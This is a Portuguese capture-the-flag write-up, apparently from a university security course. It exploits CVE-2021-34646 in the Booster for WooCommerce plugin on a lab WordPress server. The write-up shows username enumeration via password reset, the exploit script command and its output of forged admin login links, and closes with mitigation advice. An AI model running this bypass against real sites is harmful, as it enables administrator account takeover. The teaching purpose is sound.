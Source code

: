 # CTF 1 - Semana 3

## Parte 1

Acedemos à página **http://ctf-fsi.fe.up.pt:5001**, que é um servidor WordPress. De seguida procuramos pelo site informações sobre as suas dependências, acabando por descobrir 3:

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3

De seguida, procuramos informações sobre os CVEs associados a cada plugin(versão correspondente). Acabamos por nos aperceber que o CVE-2021-34646 seria o mais adequado, pois permitia fazer login como outro utilizador. 

A resposta à primeira parte do CTF é então a seguinte: 

````
flag{CVE-2021-34646}
````

## Parte 2

Ao descobrir a vulnerabilidade do site, foi possível obter um script em Python para atacar o site. No entanto, para utilizar o script era necessário primeiramente fazer um pedido de reset de password. 

Como é possível descobrir se um username existe ou não quando se realiza um pedido de reset de password, testamos o username "admin". Verificando-se que este existe, realizamos o pedido de reset.
Como normalmente o id do admin é igual a 1, o próximo passo foi correr o script em python da seguinte maneira.

````
$ python3 script.py http://ctf-fsi.fe.up.pt:5001 1
````
Que nos deu estes resultados

````
#0 link for hash 1dc5a859697e220af9decfc1e158ebec:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMWRjNWE4NTk2OTdlMjIwYWY5ZGVjZmMxZTE1OGViZWMifQ

#1 link for hash e14231468781c7aad7137a611652e35a:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZTE0MjMxNDY4NzgxYzdhYWQ3MTM3YTYxMTY1MmUzNWEifQ

#2 link for hash 185893239b043ef2bcd6cf01b6007db4:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiMTg1ODkzMjM5YjA0M2VmMmJjZDZjZjAxYjYwMDdkYjQifQ

````

O que o script faz é formar um link de validação de login com o token codificado através da hora atual.

Ao aceder a um destes links, temos então acesso à conta de administrador do site. 
De seguida seguimos o guião e encontramos a flag num post privado. 

````
flag{please don't bother me}
````


## Vulnerabilidades

Após a resolução deste CTF, foi possível concluir que tipo de melhorias seria necessário fazer para melhorar a segurança do site.

1. Manter sempre as versões das dependências atualizadas ou em versões estáveis(sem vulnerabilidades conhecidas)

2. Aquando o pedido de mudança de passe, não revelar a existência ou não existência de username/e-mail.Dizer apenas "foi enviado e-mail caso o e-mail/username exista".

